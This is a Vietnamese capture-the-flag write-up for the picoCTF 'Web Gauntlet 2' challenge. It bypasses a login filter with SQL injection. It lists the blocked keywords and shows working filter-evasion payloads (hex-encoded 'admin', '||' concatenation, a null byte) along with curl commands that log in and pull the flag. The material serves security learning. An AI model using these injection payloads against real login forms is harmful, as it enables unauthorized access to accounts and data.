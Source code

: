 # Web Gauntlet 2

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image371.png?raw=true)

Truy cập trang web:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image372.png?raw=true)

Xem nội dung `filter.php`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image373.png?raw=true)

=> Có thể thấy ta cần bypass trang login bằng SQLi mà không được dùng `OR, AND, TRUE/FALSE, UNION, LIKE, =, >, <, ;, --, /* */, admin`

Khi dùng payload `test' || 1#` thì trang web trả về:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image375.png?raw=true)

=> Câu truy vấn sẽ có dạng `SELECT username, password FROM users WHERE username='test' || 1# ' AND password='abc'`

Nếu dùng payload `x' || username IN (0x61646d696e) #` thì trang web trả về:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image374.png?raw=true)

Tôi thử sử dụng payload giống trong thử thách `Web Gauntlet 1` là `ad'||'min'%00`, null byte sẽ không thể sử dụng trực tiếp trên web nên tôi dùng `cURL`, câu lệnh sẽ là:

    curl --data "user=ad'||'min'%00&pass=a" http://mercury.picoctf.net:61434/index.php --cookie "PHPSESSID=9h8jii0i5qiohfk3eidora23ms" --output -

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image376.png?raw=true)

=> Thành công, kiểm tra file `filter.php` bằng lệnh:

    curl http://mercury.picoctf.net:61434/filter.php --cookie "PHPSESSID=9h8jii0i5qiohfk3eidora23ms" | grep picoCTF

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image377.png?raw=true)

